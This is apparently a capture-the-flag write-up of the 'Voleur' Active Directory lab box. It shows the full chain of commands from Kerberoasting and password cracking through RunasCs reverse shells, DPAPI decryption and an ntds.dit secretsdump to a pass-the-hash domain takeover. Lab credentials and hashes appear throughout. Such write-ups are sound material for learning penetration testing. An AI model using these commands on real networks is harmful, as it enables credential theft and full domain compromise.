



Voleur
Voleur was a medium-difficulty Windows box centered around Active Directory exploitation in an NTLM-disabled environment, requiring exclusive use of Kerberos authentication throughout the attack chain. Initial enumeration revealed standard Active Directory services on a domain controller with an unusual SSH service on port 2222. Using credentials for ryan.naylor (HollowOct31Nyt), I encountered STATUS_NOT_SUPPORTED errors due to disabled NTLM authentication. I pivoted to impacket-smbclient with Kerberos authentication to enumerate SMB shares, discovering a password-protected Excel file (Access_Review.xlsx) in the IT share. After extracting the hash with office2john and cracking it with John the Ripper (password: football1), I obtained credentials for multiple service accounts.
Using the svc_ldap account, I performed enumeration with bloodyAD and discovered write permissions on the servicePrincipalName attribute of svc_winrm. I exploited this through targeted Kerberoasting by adding an arbitrary SPN to svc_winrm, requesting a TGS ticket with impacket-GetUserSPNs, and cracking the hash with hashcat to obtain credentials (AFireInsidedeOzarctica980219afi).This provided WinRM access and the user flag.
Privilege escalation leveraged svc_ldap's membership in the Restore group. Using RunasCs to get a shell as svc_ldap, I identified and restored the deleted Active Directory user Todd Wolfe using PowerShell's Restore-ADObject cmdlet. Accessing the IT share as Todd revealed an archived user directory in Second-Line Support containing DPAPI credential blobs and masterkeys. I decrypted the masterkey using impacket-dpapi with Todd's password and SID, then extracted credentials for jeremy.combs (qT3V9pLXyN7W4m) from the credential blob.
As Jeremy, I discovered an SSH private key (id_rsa) and a note indicating WSL configuration for backup tools. I used the key to SSH as svc_backup on port 2222, accessing a Windows Subsystem for Linux environment. Through the /mnt/c mount point, I accessed the Third-Line Support backup directory containing ntds.dit and registry hives. After exfiltrating these files via SCP, I performed a local secretsdump to extract the Administrator's NTLM hash. Finally, I used impacket-getTGT with pass-the-hash to obtain a Kerberos ticket and achieved domain administrator access via WinRM, capturing the root flag.
User flag
Nmap scan reveals standard ports for an Active Directory DC, and an unusual SSH on port 2222.
Finding an XLSX file in the IT share
Running nxc commands as Ryan returns a STATUS_NOT_SUPPORTED error, which means that NTLM authentication is disabled for this user.
I requested a TGT using impacket-getTGT to bypass that issue. (Note to self from the future: Kerberos auth does NOT require having a pre-requested TGT.)
impacket-getTGT -dc-ip 10.129.103.125 voleur.htb/ryan.naylor:HollowOct31Nyt

But it kept throwing more errors. I decided to switch my approach and use impacket-smbclient to quickly see if there are any accessible shares.
impacket-smbclient -k -no-pass voleur.htb/ryan.naylor@DC.voleur.htb
Cracking the XLSX file password
The file is password-protected. I'll use office2john to get a crackable hash.
office2john Access_Review.xlsx
It returns Access_Review.xlsx:$office$<SNIP>. I will attempt to crack this hash with John.
john xlsxhash --wordlist=/usr/share/wordlists/rockyou.txt
xlsx | football1
There are a few service accounts with passwords. I will check whether any of them are valid, and if yes, I'll check the user's permissions.
Targeted kerberoast against svc_winrm
I began with the svc_ldap user. I requested a ticket like before, and ran bloodyAD to check what they can do.
bloodyAD --host DC.voleur.htb -k --dc-ip 10.129.103.125 get writable --detail
Svc LDAP can write into the servicePrincipalName attribute of svc winrm. This allows me to perform a targeted kerberoast to get a crackable hash.
There will be two steps to that. First, I'll add an SPN to the svc_winrm account, then I'll use impacket-GetUserSPNs to request a hash.
bloodyAD --host DC.voleur.htb -k --dc-ip 10.129.103.125 set object svc_winrm servicePrincipalName -v 'something/special'
The value itself doesn't matter. It just has to be in the correct format.
Now I can request a ticket for this user.
impacket-GetUserSPNs -target-domain voleur.htb -request -k -no-pass -dc-ip 10.129.103.125 -dc-host DC.voleur.htb voleur.htb/svc_ldap
I will use hashcat to crack the password.
hashcat -a 0 hash /usr/share/wordlists/rockyou.txt
svc_winrm | AFireInsidedeOzarctica980219afi
I'll request a ticket again, this time for svc_winrm. Then I will try remoting into the machine.
impacket-getTGT -dc-ip 10.129.103.125 voleur.htb/svc_winrm:AFireInsidedeOzarctica980219afi
Root flag
Restoring Todd Wolfe
Since svc_ldap is in the restore group, I'll get a shell as them on the box to hopefully restore Todd. I will use RunasCs for this task, as the LDAP account cannot winrm into the machine.
.\RunasCs.exe svc_ldap M1XyC9pW7qT5Vn powershell.exe -r 10.10.16.31:9001

This will be exactly the same as in the TombWatcher box. I need to get the deleted user's identity, then restore it with powershell. I already have their password from the XLSX file.
Get-ADObject -Filter 'isDeleted -eq $True' -IncludeDeletedObjects -Properties *

Todd's identity as a deleted user is CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb.
Restore-ADObject -Identity 'CN=Todd Wolfe\0ADEL:1c6b1deb-c372-4cbb-87b1-15031de169db,CN=Deleted Objects,DC=voleur,DC=htb'
Todd has been restored. I can now request tickets as him, or get a reverse shell the same way as before.
Uncovering DPAPI credentials in Todd's user directory
.\RunasCs.exe todd.wolfe NightT1meP1dg3on14 powershell.exe -r 10.10.16.31:9002
I will examine the IT share further, as I saw more directories that were inaccessible to me earlier.
Second-Line Support contains an archived user directory of todd.wolfe.
In which I found a DPAPI blob, alongside Todd's masterkey. I used Copy-Item to copy both of those into C:\programdata, so that I can download them easily with my evil-winrm shell.
With both files on my machine, I can proceed with the decryption process. First, the masterkey.
impacket-dpapi masterkey -file 08949382-134f-4c63-b93c-ce52efc0aa88 -sid S-1-5-21-3927696377-1337352550-2781715495-1110 -password NightT1meP1dg3on14
With this decrypted masterkey I can now get the credentials from the blob.
`impacket-dpapi credential -file 772275FAD58525253490A9B0039791D3 -key 0xd2832547d1d5e0a01ef271ede2d299248d1cb
jeremy.combs | qT3V9pLXyN7W4m
I'll request a ticket like before, and I'll try remoting into the machine as Jeremy.
SSH as svc_backup
Jeremy,
I've had enough of Windows Backup! I've part configured WSL to see if we can utilize any of the backup tools from Linux.
Please see what you can set up.
Thanks,
Admin
There was also an id_rsa file, and I remember SSH running on port 2222. I'll check whether I can use SSH as svcbackup.
ssh -i id_rsa svc_backup@voleur.htb -p 2222
I looked around the common valuable directories, and found the backups in /mnt/c.
I can now traverse the backup folder, which contains the hives and the ntds.dit file. If I get these, I'll be able to use secretsdump to get the hashes of every domain user, including the administrator.
scp -P 2222 -i id_rsa svc_backup@voleur.htb:'/mnt/c/IT/Third-Line Support/Backups/Active Directory/ntds.dit' .
scp -P 2222 -i id_rsa svc_backup@voleur.htb:'/mnt/c/IT/Third-Line Support/Backups/Registry/SYSTEM' .

Now I'll use these two files to perform a local secretsdump.
impacket-secretsdump -system SYSTEM -ntds ntds.dit LOCAL
The admin's hash was revealed, but I still cannot use it to log in with evil-winrm due to NTLM auth being disabled. I will request a ticket one last time.
impacket-getTGT -hashes ':e656e07c56d831611b577b160b259ad2' -no-pass -dc-ip 10.129.125.2 voleur.htb/administrator
Rooted!